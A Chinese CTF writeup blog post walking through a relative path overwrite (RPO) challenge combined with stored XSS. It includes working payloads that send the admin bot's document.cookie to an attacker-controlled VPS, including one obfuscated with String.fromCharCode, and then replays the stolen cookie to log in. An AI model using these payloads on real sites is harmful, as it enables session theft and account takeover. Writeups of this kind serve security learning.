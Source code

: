 ```yaml
---
layout: post
title: 有关RPO攻击的一道题目
author: Qiqi
date: 2018-5-9
header-img: img/home-bg.jpg
catalog: true
tag:
   - Web安全
   - Writeup
   - RPO
---
```


# RPO练习题WP

前一阵强网杯出了道有关rpo的题目，乘热打铁，k0rz3n师傅自己给我们出了道题目，让我们练练手

进入页面是一个bot自动提交的输入框和一个评论区入口

扫描一下目录我们还发现一个`login.php`

进去一看，是个登录框，随便输入用户名和密码

返回

![](https://ws1.sinaimg.cn/large/006Vib6xly1fqp9l2nxrgj30jz04gdg4.jpg)

显然我们是要获取管理员的cookie了

进入评论区看看，发现我们可以在评论区上评论

尝试插入`<script>alert(1)</script>`

访问`http://ctf.k0rz3n.com/index.php/users/1/html/4`，返回了我们输入的内容，查看源代码发现`<>`被实体编码了`&lt;script&gt;alert(1);&lt;/script&gt;gt;`

想到之前做过的一道xss，利用unicode去绕过实体编码，于是尝试着用unicode编码去绕过，发现依然没有什么效果

于是，我们再往回看，查看`index.php`的源代码，看到一个相对路径引用

![](https://ws1.sinaimg.cn/large/006Vib6xly1fqp7e5ljfij30bn01d3yp.jpg)

这里存在RPO漏洞

RPO是利用浏览器的一些特性和部分服务端的配置差异导致的漏洞，通过构造我们可以通过相对路径来引入其他的文件，已达成我们想要的目的

我们来看一下这题的payload`http://ctf.k0rz3n.com/index.php/users/6/html/2/..%2f..%2f..%2f..%2f..%2findex.php`

对于php而言，他获得的请求是url解码后的，`%2f`会被加码为`/`，apache和nginx会按照目录的方式来返回我们请求的资源。

对于payload，也就相当于访问`http://ctf.k0rz3n.com/index.php/users/6/html/2/../../../../../index.php`

向上跳了五层，依然会去访问`index.php`并同时去加载`./js/jquery-3.2.1.min.js`

但是服务端和客户端之间产生了差异，浏览器在寻找js资源的时候，并没有对`%2f`进行解码，就认为`..%2f..%2f..%2f..%2f..%2findex.php`是一段数据，但是有没有人来接受这段数据，相当于没有用，所以返回的资源还是`http://ctf.k0rz3n.com/index.php/users/6/html/2/`，也就是它当作了js来解析

利用这一点，我们就可以结合xss来攻击了

首先尝试着输入`alert(1)`，访问`http://ctf.k0rz3n.com/index.php/users/3/html/1/..%2f..%2f..%2f..%2f..%2findx.php`发现成功弹框

![](https://ws1.sinaimg.cn/large/006Vib6xly1fqp8wzjgapj30ua06ggo6.jpg)

接着再尝试输入`alert('xss')`

![](https://ws1.sinaimg.cn/large/006Vib6xly1fqp965r5esj30vh06pgo5.jpg)

发现单引号没有被过滤（经过测试，双引号被过滤了），可以利用

于是构造`(new Image()).src = 'http://vpsip:port?'+document.cookie`

打开vps端口监听

将`http://ctf.k0rz3n.com/index.php/users/6/html/..%2f..%2f..%2f..%2f..%2findex.php`提交给bot

vps上接受到请求包

![](https://ws1.sinaimg.cn/large/006Vib6xly1fqp9gk6du3j30ij062ah5.jpg)

成功获取cookie

然后我们访问`http://ctf.k0rz3n.com/login.php`并抓包，添加上我们获取到的cookie，发送出去，成功得到flag

![](https://ws1.sinaimg.cn/large/006Vib6xly1fqp9ohr7muj30cn01zwek.jpg)

这里再补充一下，如果单引号也被过滤了，我们还可以使用fromCharCode进行绕过处理`(new Image()).src = String.fromCharCode(104,116,116,112,58,47,47,49,46,49,46,49,46,49,58,50,51,51,51,47)+document.cookie;`
